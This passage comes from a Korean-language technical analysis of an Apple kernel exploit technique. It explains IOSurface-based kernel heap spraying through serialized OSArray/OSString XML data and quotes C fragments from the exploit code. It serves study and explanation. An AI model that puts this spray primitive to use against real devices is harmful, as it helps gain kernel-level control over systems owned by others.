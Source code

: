 ```c
    // Build the IOSurfaceValueArgs.
    args->surface_id = IOSurface_id;
    // Create the serialized OSArray. We'll remember the locations we need to fill in with our
    
    // 6. 각 XML은 Spraying Data를 담기 위한 OSArray를 포함함
    // xml_data 배열은 current_array_length(256)개의 xml_data를 담고
    // 각 xml_data는 여러 개의 XML 노드로 이루어진 단일 Spraying Data를 포함함
    // data as well as the slot we need to set our key.
    uint32_t **xml_data = malloc(current_array_length * sizeof(*xml_data));
    assert(xml_data != NULL);
    uint32_t *key;
    
    // 7. XML 구성
    size_t xml_size = serialize_IOSurface_data_array(args->xml,
    		current_array_length, data_size, xml_data, &key);
    assert(xml_size == xml_units * sizeof(args->xml[0]));
    // ...
```

7단계 “XML 구성”에서는 256개의 `OSString`을 담은 `OSArray`를 구성한다.

여기서 `OSString`은 시리얼라이즈 및 스프레이되는 데이터이며, 
이를 `IOSurfaceRootClient`를 통해 XML 형태로 커널 버퍼에 전송하면, 
커널은 이 `OSString`들에 대한 힙을 할당한다. 

`OSString`이 바로 우리가 스프레이하려는 데이터이기 때문에
이러한 과정을 통해 임의의 데이터를 커널 힙에 스프레이할 수 있는 것이다.

IOSurface 전송용 XML 객체의 각 노드는 `uint32` 하나로 표현할 수 있으며, 
이를 XML 유닛(XML Unit)이라고 부르기도 한다. 

```c
struct IOSurfaceValueArgs {
    uint32_t surface_id;
    uint32_t _out1;
    union {
        **uint32_t xml[0];    //** XML 객체의 각 노드
        char string[0];
    };
};
```

IOSurface 호출 시 입력 길이를 명시해야 하므로, 
각 스프레이 라운드에서 사용할 XML 크기를 정확히 계산하는 것이 매우 중요하다.

3단계 “Spraying Data에 필요한 XML 노드 수 계산”에 대해 살펴보면

시리얼라이즈된 데이터는 커널에서 OSString으로 표현되므로, 끝에 들어가는 `\0`를 고려해야 한다. 
이때 데이터의 마지막 한 바이트를  `\0`로 사용하므로, 실제 데이터 크기는 `size - 1`이 된다. 

이후 공식은 `(actual_size + n - 1) / n`으로 나타내는데, 이는 전형적인 올림(Ceiling) 함수로,
`actual_size`를 4(XML Unit 크기)로 나눈 뒤 올림한 값을 의미한다. 

최종적으로 각 Spraying Data가 차지하는 XML Unit 수를 계산하여 `xml_units_per_data`에 저장한다.

따라서 다음 코드가 사용된다.
